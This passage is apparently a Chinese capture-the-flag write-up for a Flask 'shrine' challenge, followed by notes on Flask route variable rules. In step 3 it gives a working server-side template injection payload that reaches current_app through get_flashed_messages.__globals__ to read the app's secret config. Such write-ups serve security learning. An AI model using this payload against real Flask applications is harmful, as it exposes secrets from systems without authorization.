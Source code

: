    ```json
   	'sys': < module 'sys' (built - in ) > ,
   	'Headers': < class 'werkzeug.datastructures.Headers' > ,
   	'stream_with_context': < function stream_with_context at 0x7f4f8950eb18 > ,
   	'_os_alt_seps': [],
   	'__name__': 'flask.helpers',
   	..............
   	'url_for': < function url_for at 0x7f4f8950ec08 > ,
   	..............
   	'os': < module 'os'from '/usr/local/lib/python2.7/os.pyc' >
   }
   ```
   
2. 看到这一步基本这道题就明白了，因为这里面返回了current_app对象，而这个对象是全局的，指向当前app的对象

3. "/shrine/\{\{get_flashed_messages.\_\_globals\_\_\['current_app'\].config\['FLAG'\]\}\}"，网页返回内容如下

   ```py
   flag{shrine_is_good_ssti}
   ```

4. 发现flag，flag{shrine_is_good_ssti}

5. 提交，答案正确

## 独立思考

### 1. Flask框架路由的变量规则有哪些？

* 默认传参：通过把 URL 的一部分标记为 \<variable_name\> 就可以在 URL 中添加变量。标记的 部分会作为关键字参数传递给函数。

  ```python
  @app.route('/user/<username>')
  def show_user_profile(username):
      # show the user profile for that user
      return 'User %s' % escape(username)
  ```

* 转换器修饰传参：通过使用 \<converter:variable_name\> ，可以选择性的加上一个转换器，为变量指定规则。

  ```python
  @app.route('/path/<path:subpath>')
  def show_subpath(subpath):
      # show the subpath after /path/
      return 'Subpath %s' % escape(subpath)
  ```

| string | （缺省值） 接受任何不包含斜杠的文本 |
| ------ | ----------------------------------- |
| int    | 接受正整数                          |
| float  | 接受正浮点数                        |
| path   | 类似 string，但**可以包含斜杠**     |
| uuid   | 接受 UUID 字符串                    |
